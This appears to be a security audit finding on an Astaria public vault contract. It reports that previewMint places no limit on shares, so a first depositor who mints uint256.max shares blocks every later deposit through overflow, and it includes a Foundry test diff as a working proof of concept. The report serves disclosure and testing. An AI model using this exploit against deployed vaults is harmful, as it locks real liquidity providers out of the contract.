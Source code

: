 -Title- 
DoS attack on a newly created public vault

-Description-
  When a public vault is created, liquidity providers can choose to use deposit() or mint() to provide liquidity. However, the previewMint function does not limit the [amount of shares](https://github.com/AstariaXYZ/astaria-gpl/blob/4b49fe993d9b807fe68b3421ee7f2fe91267c9ef/src/ERC4626-Cloned.sol#L132) that a liquidity provider can get. If the first liquidity provider get uint256.max shares, other liquidity providers will not be able to provide liquidity due to math overflow.

-PoC-

    diff --git a/src/test/AstariaTest.t.sol b/src/test/AstariaTest.t.sol
    index c7ce162..4726dfe 100644
    --- a/src/test/AstariaTest.t.sol
    +++ b/src/test/AstariaTest.t.sol
    @@ -14,6 +14,7 @@
     pragma solidity =0.8.17;
     
     import "forge-std/Test.sol";
    +import "forge-std/StdCheats.sol";
     
     import {Authority} from "solmate/auth/Auth.sol";
     import {FixedPointMathLib} from "solmate/utils/FixedPointMathLib.sol";
    @@ -36,7 +37,7 @@ import {Strings2} from "./utils/Strings2.sol";
     import "./TestHelpers.t.sol";
     import {OrderParameters} from "seaport/lib/ConsiderationStructs.sol";
     
    -contract AstariaTest is TestHelpers {
    +contract AstariaTest is StdCheats, TestHelpers {
       using FixedPointMathLib for uint256;
       using CollateralLookup for address;
       using SafeCastLib for uint256;
    @@ -44,6 +45,44 @@ contract AstariaTest is TestHelpers {
       event NonceUpdated(uint256 nonce);
       event VaultShutdown();
 
    +  function testBlockDeposit() external {
    +    // 0. setup roles
    +    address user = _getSigner("user");
    +    deal(address(WETH9), user, 100 ether);
    +    address attacker = _getSigner("attacker");
    +    deal(address(WETH9), attacker, 100 ether);
    +    // 1. create a new vault
    +    address publicVaultAddr = _createPublicVault({
    +      epochLength: 10 days, // 10 days
    +      strategist: strategistTwo,
    +      delegate: strategistOne
    +    });
    +    PublicVault publicVault = PublicVault(publicVaultAddr);
    +    // check no minted vault token
    +    assertEq(0, publicVault.totalSupply());
    +    // 2. attacker is the first depositor to get the max mint amount shares
    +    uint256 attackAmount = type(uint256).max;
    +    vm.startPrank(attacker);
    +    uint256 amount = publicVault.previewMint(attackAmount);
    +    assertEq(amount, 10 ether);
    +    ERC20(WETH9).approve(publicVaultAddr, amount);
    +    publicVault.mint(attackAmount, attacker);
    +    vm.stopPrank();
    +    // 3. normal user cannot deposit
    +    vm.startPrank(user);
    +    ERC20(WETH9).approve(publicVaultAddr, amount);
    +    uint256 shares = publicVault.deposit(amount, user);
    +    uint256 userBalance = publicVault.balanceOf(user);
    +    assertEq(shares, userBalance, "wrong share balance");
    +    vm.stopPrank();
    +  }
    +
    +  function _getSigner(string memory name) internal returns (address) {
    +    address user = makeAddr(name);
    +    vm.deal(user, 100 ether);
    +    return user;
    +  }
    +
       function testFeesExample() public {
         uint256 amountOwedToLender = getAmountOwedToLender(15e17, 10e18, 14 days);
         Fees memory fees = getFeesForLiquidation(
